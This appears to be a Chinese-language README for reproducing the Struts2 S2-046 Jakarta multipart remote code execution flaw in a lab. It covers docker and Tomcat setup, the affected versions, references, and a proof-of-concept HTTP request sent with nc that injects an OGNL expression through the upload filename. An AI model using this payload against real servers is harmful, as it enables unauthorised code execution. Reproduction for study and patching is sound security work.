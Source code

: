 ## 概述

Struts2 Jakarta 插件存在远程代码执行漏洞

需要在struts.xml中配置 ```<constant name="struts.multipart.parser" value="jakarta-stream" />``` 才能触发。

## 环境搭建

环境一：

	docker pull medicean/vulapps:s_struts2_s2-046

环境二：

将```Struts2FileUpload.war``` war 包部署在tomcat，tomcat自动解压。

访问路径：```http://ip:port/Struts2FileUpload_war/doUpload.action```


## 影响版本

基于Jakarta的文件上传Multipart解析器

Struts 2.3.5-Struts 2.3.31，Struts 2.5- Struts 2.5.10


## 复现

攻击方式有2种。Content-Disposition 值或不正确的Content-Length 标头(Content-Length header, is bigger than Struts2 maximum allowed size 2GB.)执行RCE攻击。如果Content-Disposition / Content-Length 值无效，则会引发异常，然后将其用于向用户显示错误消息。

### poc

	export payload="POST /doUpload.action HTTP/1.1\r\nHost: youguess\r\nContent-Length: 10485760\r\nCache-Control: max-age=0\r\nContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryaaa\r\nConnection: close\r\n\r\n------WebKitFormBoundaryaaa\r\nContent-Disposition: form-data; name=\"upload youguess\"; filename=\"%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','lee')}\"\r\n\r\n"

	echo -e "$payload" | nc ip 8083

![](1.png)

### exp

见 exp.py

## 参考资料

[Struts2-046: A new vector](https://community.microfocus.com/t5/Security-Research-Blog/Struts2-046-A-new-vector/ba-p/226779#)

https://github.com/vulhub/vulhub/tree/master/struts2/s2-046

https://cwiki.apache.org/confluence/display/WW/S2-046